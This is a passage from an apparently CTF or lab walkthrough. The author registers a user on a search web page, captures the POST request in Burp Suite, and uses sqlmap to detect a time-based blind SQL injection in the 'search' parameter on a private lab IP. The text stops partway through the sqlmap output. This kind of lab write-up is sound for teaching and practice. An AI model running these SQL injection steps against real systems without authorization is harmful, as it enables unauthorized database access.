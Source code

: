 ![image-20231109195022737](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311091950808.png)

We signed up a user named 123456 and password is 123456, and the login:

![image-20231109195103800](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311091951877.png)

It's a search webpage, we can do some search action through search link. And we can test and guess, maybe it will have some vulns here. Capture the traffic via burpsuite:

![image-20231109195307589](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311091953661.png)

The page return diffrent results based on search's values, and maybe has a SQL Injection here.

Detet it with sqlmap.

**Frist Way**

```shell
# export burp suite request data into sql.txt
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ cat sql.txt                                          
POST /welcome.php HTTP/1.1
Host: 172.16.86.146
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Origin: http://172.16.86.146
Connection: close
Referer: http://172.16.86.146/welcome.php
Cookie: PHPSESSID=cdc3pcm34pd30kqr7otellt6f4
Upgrade-Insecure-Requests: 1

search=123


# execute sqlmap with sql.txt
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ sqlmap -r sql.txt --dbs --batch                      
        ___
       __H__                                                                                                                                                                                         
 ___ ___[,]_____ ___ ___  {1.7.10#stable}                                                                                                                                                            
|_ -| . [)]     | .'| . |                                                                                                                                                                            
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                            
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                         

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 07:08:48 /2023-11-09/

[07:08:48] [INFO] parsing HTTP request from 'sql.txt'
[07:08:48] [INFO] resuming back-end DBMS 'mysql' 
[07:08:48] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (POST)
    Type: time-based blind
```